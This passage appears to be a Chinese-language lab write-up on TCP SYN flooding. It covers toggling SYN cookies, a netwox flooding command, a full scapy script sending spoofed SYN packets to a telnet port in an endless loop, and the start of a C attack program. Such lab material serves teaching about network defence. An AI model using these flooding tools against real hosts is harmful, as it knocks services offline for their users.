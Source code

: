 指令（在服务器上使用如下命令）

    sudo sysctl -w net.ipv4.tcp_syncookies=0 #关闭syn_cookies

    sudo sysctl -w net.ipv4.tcp_syncookies=1 #开启syn_cookies


在攻击机上使用如下命令

    netwox 76 -i 172.17.0.2 -p 23


在客户机上使用telnet连接到服务器

    telnet 172.17.0.2

输入用户名和密码

关闭syn_cookies的情况下，客户机将无法连接到服务器

开启情况下，可以成功连接

### scapy

和上面的操作类似，只不过攻击命令进行了更改

以下是攻击机上运行的脚本

    #!/usr/bin/python3

    from scapy.all import IP, TCP, send

    from ipaddress import IPv4Address

    from random import getrandbits



    ip = IP(dst="172.17.0.2")

    tcp = TCP(dport=23, flags='S')

    pkt = ip/tcp



    while True:

        pkt[IP].src = str(IPv4Address(getrandbits(32)))

        pkt[TCP].sport = getrandbits(16) #source port

        pkt[TCP].seq = getrandbits(32)    #sequence number

        send(pkt, verbose = 0)

### c程序进行攻击

    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <time.h>
    #include <string.h>
    #include <sys/socket.h>
    #include <netinet/ip.h>
    #include <arpa/inet.h>

